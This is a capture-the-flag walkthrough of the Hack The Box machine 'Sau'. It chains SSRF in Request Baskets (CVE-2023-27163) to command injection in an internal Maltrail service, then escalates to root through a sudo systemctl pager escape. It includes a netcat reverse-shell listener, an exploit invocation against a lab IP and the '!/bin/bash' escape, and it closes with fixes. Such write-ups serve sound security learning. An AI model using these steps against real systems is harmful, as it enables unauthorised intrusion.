## Machine Information

- **Machine Name:** Sau
- **Machine IP:** 10.10.11.224
- **Machine Type:** Easy
- **Machine OS:** Linux

---

## Reconnaissance - Information Gathering

Hello, citizens of the Internet. Do you guys ever wonder have some seem-to-be smart people take over your bank account? Well, an entire call center makes a deal with data brokers, and they buy information about you from them, then one of the guy calls you are speaks out that information with such a confidence that you are convinced that he is one of the technical staff from the bank, then you give up your password and MFA, and that's how you end up getting scammed. It all starts with - *"Information Gathering"* - and it is the starting point of all magical hacks, from you getting phished to hacking the highly secure pentagon. We will also start here only to hack this Hack the box machine

### Ports & Services Scan

Things we know about this machine is its IP address, and here we will assume that we do not know what OS it uses (So, I can teach you how to identify the OS in real world scenario). IP address is like a *home address*, with that you cannot do much but to visit that home and do your investigation. Port scanning simply means this - You visit all ports of that IP address and figure out which ports are open, just like figuring out which windows are open in a home.

> *"The more ports are open in a system, the more likely it is to be vulnerable"*

**Commands:**
- `sudo nmap -sVC -p- -O 10.10.11.224 | tee nmapSau.txt`
- `sudo nmap -sUV -T4 -F 10.10.11.224 | tee nmapSauUDP.txt`



**Output:**

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-24 16:20 EDT
Nmap scan report for 10.10.11.224
Host is up (0.019s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     http    Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Thu, 24 Apr 2025 20:20:57 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Thu, 24 Apr 2025 20:20:41 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Thu, 24 Apr 2025 20:20:41 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.95%I=7%D=4/24%Time=680A9D19%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Thu,\x2024\x20Apr\x20
SF:2025\x2020:20:41\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Thu,\x2024\x20Apr\x20
SF:2025\x2020:20:41\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20
SF:Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nDate:\x20Thu,\x2024\x20Apr\x202025\x2
SF:020:20:57\x20GMT\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20n
SF:ame;\x20the\x20name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\
SF:-_\\\.\]{1,250}\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=ut
SF:f-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(OfficeScan
SF:,A3,"HTTP/1\.1\x20400\x20Bad\x20Request:\x20missing\x20required\x20Host
SF:\x20header\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnecti
SF:on:\x20close\r\n\r\n400\x20Bad\x20Request:\x20missing\x20required\x20Ho
SF:st\x20header");
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.58 seconds
```

I have skipped the results for UDP scan, because there were no interesting UDP ports open, and most of the times you will not find anything in UDP. I would suggest do a TCP scan and move ahead, if you get stuck then do the UDP scan. 

Firstly, let's know how to identify the OS of this box, if you check out the ports then you will see this, which confirms this is an Ubuntu machine (Linux OS):
- `22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)`

We are not gonna exploit `ssh` as our initial port, because there is no exploit that will give us access to the system without credentials. In a ctf environment, `ssh` is generally given open so you can easily pivot to a stable shell once you achieve the credentials, but in real world this is not always the case. We can also see that `http (80)` and `unknown (8338)` are shown as filtered, this can be because a firewall is stopping us accessing it. Lastly, we have `Golang net/http server` running on port `55555`. 

The `Golang net/http server` package in Golang provides the core functionality for building HTTP servers and clients. It is a fundamental part of Go's standard library, making it straightforward to create web applications and services. It is like `python http.server module`

### HTTP (55555) Recon

In our 4 open ports, there is only one port which looks like our way in, because `ssh` is useless right now and other two ports are filtered so we cannot communicate with them. This is where I did UDP scan because I was being doubtful, but it seems that I was not looking closely.

> *"If you are stuck then it can be because of two things: Either you are not looking closely, or you are looking closely but in the wrong direction"*

**Commands:**
- `curl http://10.10.11.224:55555/`
- `curl http://10.10.11.224:55555/web`



If we do a `curl` over port 55555 then we can see it redirects to `/web` and there is a website hosting on that directory. I like to curl before going to the site because many a times you get a lot of information from here, you might see some juicy comments or a input field which might be vulnerable, so always do that before going to the site.




Once we visit the site, it is something related to *Request Basket*, and there is an input field where we can create *New basket*. Do not worry if you do not know what is a basket, because when I was doing this box I was also unaware about this technology, but in simple terms it is used to capture and investigate HTTP request that are sent to that basket or URL. I create a basket which will generate a custom URL, and if we send any request to that URL, then it will collect that HTTP request.

This might be vulnerable because it is an interactive technology which means it has some part which trust user input and interacts with it, but we still do not know how to exploit it so let's jump in.

**Basket Information:**
- `Name: 0x30`
- `Basket token: aidkzLnfSB52VFr0hHR-2EsSYlW0S_KibZrWpMkHkIKw`

**Command:**
- `curl http://10.10.11.224:55555/0x30`




First thing I check is how this works and the best way to check is to send a request to our basket, and see what it can do. I send a request using curl and in our dashboard we can see that it captured our request. I was still very confuse because there is no possible way we can exploit this, it only displays the request and nothing else, so how can we do this, and here you guys might think that check the version of software being used and just do a google search, yes it is good but before doing that I like to figure out what can be vulnerable by myself.




I dig down a bit and found a very interesting this, we can also specify the response that our basket will send to our mentioned specific request. If we tell our basket to send a particular text like *"Hello, This is Z3R0 (0x30)* to any GET request coming in then it will send that as a response. I confirm that in BurpSuite, and we can clearly see our text in the response side. Now I feel like we know the vulnerability, let me take you through it.



Before going to the vulnerability, the way I got to know about the version of request-basket running is the footer line `Powered by request-baskets | Version: 1.2.1` and as per my understanding this is vulnerable.

---

## Initial Foothold - Getting access to the system

This is the stage where we will understand the vulnerability and exploit it, and this will be possible due to all the information we have gathered from the previous stage of reconnaissance. Information will lead us to vulnerable endpoints, and then we will search for available exploits for those endpoints.

### CVE-2023-27163: SSRF on request-baskets



As previously mentioned, Request-Baskets operates as a web application designed to collect and log incoming HTTP requests directed to specific endpoints known as *"baskets".* During the creation of these baskets, users have the flexibility to specify alternative servers to which these requests should be forwarded (Just like we have flexibility with the response being sent). The critical issue here lies in the fact that users can inadvertently specify services they shouldn't have access to, including those typically restricted within a network environment. 

In our case, a scenario is that where the server hosts Request-Baskets on port 55555 and simultaneously runs a http service and unknown service on port 80 and 8338 respectively. These two services, however, are configured to exclusively interact with the localhost and keep away the external requests with the help of a firewall. In this scene, an attacker can exploit the Server-Side Request Forgery (SSRF) vulnerability by creating a basket that forwards requests to `http://localhost:80` or `http://localhost:8338`, effectively bypassing the previous network restrictions and gaining access to that services, which should have been restricted to local access only.


**Link:** [CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163/blob/main/CVE-2023-27163.sh)

Github has a very nice exploit for this based on `bash` for those who want to perform some automation in their exploitation, but I would do a manual exploitation because it is very simple. If you want to learn `bash scripting` then download the exploit and try to replicate it in a controlled environment, other than that there is no necessity for us to use any kind of written exploit for this vulnerability.

### Manual Exploitation - SSRF to port 80




We know through our `nmap` scan that there were two services which were displayed as `filtered` due to some network restriction or firewall configuration. Fortunately, we have Request-baskets version 1.2.1 which has a feature to add **Forward URL** for all the request coming to that basket, and we can utilize this to forward our request to port 80. When our setup is ready-to-launch then we can send a request to `http://10.10.11.224:55555/0x30` and we will be able to view the website running on port 80. We might not able to interact with it fully, but we can see a footer `Powered by Maltrail (v0.53)` which is enough for us to continue our exploitation.

### Maltrail Exploit




While I was researching about Maltrail CMS, I found an exploit on Maltrail v0.53 which was a command injection, and it utilizes a vulnerability in `/login` page where the username field is directly feede to `subprocess.check_output()` without any sanitization, so we can perform a malicious command injection which can give us a reverse shell. I developed my own exploit and avoided the github exploit, I just needed to make few changes and I am already good with python so I decided to take a shot and writing a new exploit for this vulnerability from my understanding. 

**Link:** [Maltrail_Exploit](https://github.com/Z3R0-0x30/Maltrail_0.53_RCE_Exploit)

**Commands:**
- `nc -lnvp 1337`
- `python3 zero_maltrail_exploit.py 10.10.14.15 1337 http://10.10.11.224:55555/0x30`



We were able to exploit the vulnerability in Maltrail login functionality and get a reverse shell on port 1337, and through that we were also able to access the user flag.

---

## Privilege Escalation - Being the root

We are already successful in compromising the system and getting a shell, but many a times the initial access you get is a low-privileged user. In this stage, we will try to elevate our privileges to the root user (admin) of Linux file system, and this user is like the God of system, if anyone is able to compromise the root account then he completely owns the system without any restrictions.

### SUDO binaries misconfiguration

**Command:**
- `sudo -l`
- `systemctl status trail.service`
- `ls -al /etc/systemd/system/trail.service`
- `find / -name server.py 2>/dev/null`
- `ls -al /opt/maltrail/server.py`



Analysing through sudo binaries for puma user, we find a unique binary that we can run as root without authentication, and this binary `/usr/bin/systemctl status trail.service` is just used to display the status of the `trail.service` process. When we look through the status of this process, we see that it is executing `server.py` that is used by maltrail, and it is located at `/opt/maltrail/server.py`.




After some time of analysis, my attention goes to the version of `systemctl` being used by the target machine, and I kind of felt it odd because it was not updated. At first I thought maybe because the box is old, so they might be using old version of `systemctl`, but the version was way older than the release date of the box. I tried looking for any available exploits on `systemd 245 (245.4)` and found one. 

The vulnerability is simple, this particular version of `systemctl` uses something known as `pager` which is used for a proper display formatting and also to provide some features through which you can execute commands while viewing a process in status mode. We can verify that our `systemctl` is indeed running `pager` through our previous output where it showed pager with its pid as 1469. 

**Commands:**
- `sudo /usr/bin/systemctl status trail.service`
	- `!/bin/bash`



Bang, we were able to get the root shell by misusing a simple feature, and this is a classic example of what happens when developers say *"It's a feature, not a bug"*. 

---

## Conclusion - THE END!

**Sau** is a well-crafted easy-difficulty Linux box that showcases how chained exploitation of real-world vulnerabilities can lead to full system compromise. The machine begins with an instance of **Request Baskets**, vulnerable to **SSRF (CVE-2023-27163)**, which we exploit to access an internal **Maltrail service**. This internal service is susceptible to **unauthenticated OS command injection**, allowing us to gain a reverse shell as the `puma` user. Escalation to root is achieved by abusing a **sudo misconfiguration**. Overall, **Sau** highlights the importance of secure internal service configurations and proper access control.

###  🧠  Lessons Learned

- **SSRF vulnerabilities** can act as initial access vector and pivot points to internal systems.
- **Command injection flaws** in monitoring or logging tools can be highly impactful, especially when unauthenticated.
- **Sudo misconfigurations** can offer a straightforward path to privilege escalation when not properly managed.
- Internal services should never assume they are *"safe"* from untrusted input, especially in cloud or containerized environment.

### 🔍 Vulnerabilities Exploited

1. **SSRF in Request Baskets**
	*CVE-2023-27163* - Allows sending arbitrary requests to internal services.

2. **Unauthenticated OS command injection in Maltrail**
	Leverages a flaw in the Maltrail sensor interface to execute arbitrary commands.

3. **Sudo misconfiguration**
	Grants the `puma` user uninteded root access through overly permissive sudo rules. In our case, it was an outdated systemd binary.

### 🛠️ Fixes

- **Update Request Baskets** to the latest secure version that patches the SSRF vulnerability.
- **Harden internal services** by restricting access to localhost-only and implementing authentication.
- **Validate and sanitize all inputs** - especially those used in command execution paths.
- **Review and audit sudoers configuration** to follow the principle of least privilege.
- **Use network segmentation** to prevent external actors from accessing internal resources, even via SSRF.

If you liked the writeup and want to dive deeper into the field of cybersecurity, hacking, CTFs, red teaming or blue teaming then do consider joining my discord server and Instagram:

- [Discord](https://discord.gg/wyfwSxn3YB)
- [Instagram](https://www.instagram.com/_0x30_)


